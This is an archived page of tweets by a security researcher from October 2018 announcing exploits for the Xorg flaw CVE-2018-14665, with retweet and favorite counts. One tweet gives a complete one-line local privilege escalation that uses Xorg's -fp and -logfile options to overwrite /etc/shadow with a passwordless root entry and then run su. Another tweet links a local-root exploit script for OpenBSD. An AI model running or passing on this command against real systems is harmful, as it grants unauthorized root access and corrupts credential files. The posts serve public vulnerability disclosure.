 </table></tr>
<table><tr>
<td>Quotes: <code>24</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>425</code></td>
<td>Favorites: <code>548</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055555359060807680 _at 2018-10-25, 20:23:03_**
<blockquote>
Here is an exploit using CVE-2018-14665 to get local root for @openbsd - a 0day in 6.4 stable atm https://t.co/3FqgJPwdnm #hacktheplanet https://t.co/GSiKrjFLAg
</blockquote>

* https://hacker.house/releasez/expl0itz/openbsd-0day-cve-2018-14665.sh

<table><tr>
<td><img src="pictures/ae24c10e8008b2e8197e9d6af860d6c8c4589a7525f29b9afc99e7958e5477e7.jpg" alt="ae24c10e8008b2e8197e9d6af860d6c8c4589a7525f29b9afc99e7958e5477e7.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>80</code></td>
<td>Favorites: <code>150</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1055517801224396800 _at 2018-10-25, 17:53:49_**
<blockquote>
#CVE-2018-14665 - a LPE exploit via https://t.co/eax3fvaAjE fits in a tweet

cd /etc; Xorg -fp "root::16431:0:99999:7:::"  -logfile shadow  :1;su

Overwrite shadow (or any) file on most Linux, get root privileges. *BSD and any other Xorg desktop also affected.
</blockquote>

* http://X.org

<table><tr>
<td>Quotes: <code>64</code></td>
<td>Replies: <code>25</code></td>
<td>Retweets: <code>941</code></td>
<td>Favorites: <code>1363</code></td>
</tr></table>

---
